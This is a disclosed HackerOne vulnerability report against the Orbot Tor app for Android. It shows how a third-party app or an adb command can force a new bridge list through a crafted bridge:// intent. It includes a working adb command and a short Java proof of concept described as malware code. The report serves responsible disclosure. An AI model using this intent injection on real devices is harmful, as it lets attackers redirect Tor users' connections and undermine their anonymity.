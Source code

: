 # [Android org.torproject.android] Possible to force list of bridges

## Report Details
- **Report ID**: 252626
- **URL**: https://hackerone.com/reports/252626
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-07-22T20:32:06.453Z
- **Disclosed**: 2017-08-21T19:11:41.303Z

## Reporter
- **Username**: bagipro
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: torproject

## Vulnerability Information
Do the following thing from ADB to emulate the activity start:
```
adb am start -n org.torproject.android/.OrbotMainActivity -a android.intent.action.VIEW -d bridge://xxx
```

Or create a malware app with the following code:
```java
        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("org.torproject.android", "org.torproject.android.OrbotMainActivity");
        intent.setData(Uri.parse("bridge://xxx"));
        startActivity(intent);
```

And new list of bridges will be applied (notification will be shown and new value will be added to shared_prefs).

It's dangerous because any not authorized app (third party app) installed on the same device will be able to modify settings. On the newest Android devices this not authozed change can be done remotely from any web-browser using Instant Apps (app that doesn't require install to execute any code).

## Attachments
- Screenshot_2017-07-22-21-29-11.png
- Screenshot_2017-07-22-21-28-58.png
